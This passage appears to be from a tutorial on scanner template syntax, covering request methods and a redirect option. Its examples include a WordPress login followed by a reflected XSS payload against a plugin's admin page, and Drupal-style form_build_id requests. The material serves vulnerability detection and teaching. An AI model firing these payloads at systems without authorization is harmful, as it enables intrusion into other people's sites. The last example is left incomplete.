 
#### **Method**
<h1 id="test"></h1>
Those request method can be GET, POST, PUT, DELETE.

```
requests:
  - request:
      - |
        POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Origin: {{RootURL}}
        Content-Type: application/x-www-form-urlencoded
        Cookie: wordpress_test_cookie=WP%20Cookie%20check

        log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

      - |
        GET /wp-admin/admin.php?page=my-sticky-elements-leads&search-contact=xxxx%22%3E%3Cimg+src+onerror%3Dalert%28%60document.domain%60%29+x HTTP/1.1
        Host: {{Hostname}}

    cookie-reuse: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '<img src onerror=alert(`document.domain`) x">'

      - type: word
        part: header
        words:
          - text/html

      - type: status
        status:
          - 200
```

**Redirect**

---

This field decides whether current requests can be redirect or not. By default, redirects are not allowed(it brings false value). However, if user want to redirect, it can be turn on with **redirect: true**.

**Example:**
```
requests:
  - raw:
      - |
        GET /?q={{url_encode("{{userid}}")}}%2Fcancel HTTP/1.1
        Host: {{Hostname}}

      - |
        POST /?q=file%2Fajax%2Factions%2Fcancel%2F%23options%2Fpath%2F{{form_build_id}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        form_build_id={{form_build_id}}

    cookie-reuse: true
    redirect: true         #Using redirect
    matchers:
      - type: word
```